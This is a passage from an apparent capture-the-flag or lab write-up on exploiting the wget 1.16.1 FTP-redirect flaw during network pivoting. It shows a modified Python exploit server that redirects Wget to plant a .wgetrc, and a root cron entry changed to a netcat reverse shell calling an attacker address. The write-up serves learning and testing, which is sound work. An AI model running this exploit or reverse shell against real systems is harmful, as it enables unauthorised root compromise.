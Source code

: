 > I only modified "def do_GET(self):" to "def do_HEAD(self):". And switched into the print "by GET" to "by HEAD".

```
   def do_HEAD(self):
       # This takes care of sending .wgetrc

       print "We have a volunteer requesting " + self.path + " by HEAD :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
	  print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
       self.send_response(301)
       new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
       print "Sending redirect to %s \n"%(new_path)
       self.send_header('Location', new_path)
       self.end_headers()
```
Then a bit later in the code, i modified the cron task to make a netcat reverse shell.

Original part of code:

```
HTTP_LISTEN_IP = '192.168.57.1'
HTTP_LISTEN_PORT = 80
FTP_HOST = '192.168.57.1'
FTP_PORT = 21

ROOT_CRON = "* * * * * root /usr/bin/id > /root/hacked-via-wget \n"
```

Modified part of code:

```
HTTP_LISTEN_IP = '172.30.0.2'
HTTP_LISTEN_PORT = 80
FTP_HOST = '172.30.0.2'
FTP_PORT = 21

ROOT_CRON = "* * * * * root nc 172.30.0.14 9999 -e /bin/bash \n"
```

Now that my exploit is ready, i can start preparing the environement to launch my exploit.

## Pivoting - Exploitation of wget 1.16.1<a name="Pivot"></a>

First i make the ftptest directory, and create a ".wgetrc" file.

> ![](https://i.imgur.com/cjBmIHH.png)

Then i start the ftp server.
